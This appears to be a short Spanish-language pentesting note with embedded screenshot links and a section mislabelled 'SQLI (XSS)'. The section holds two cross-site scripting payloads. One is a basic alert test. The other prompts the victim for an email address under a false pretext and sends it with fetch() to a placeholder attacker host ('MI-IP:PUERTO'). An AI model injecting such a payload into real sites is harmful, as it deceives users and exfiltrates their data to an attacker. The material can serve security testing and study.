 ![[Pasted image 20240208124843.png]]


![[Pasted image 20240208125612.png]]


![[Pasted image 20240208125442.png]]


### SQLI (XSS)

```python
<script>alert("XSS")</script>
```

```python
<script>
var email= prompt("introduce tu correo");

if (email==null || email == ""){
	alert("Es necesario introducir un correo valido para visualizar el post"); 
} else {
	fetch("http://MI-IP:PUERTO/?email=" + email);
}
</script>
```

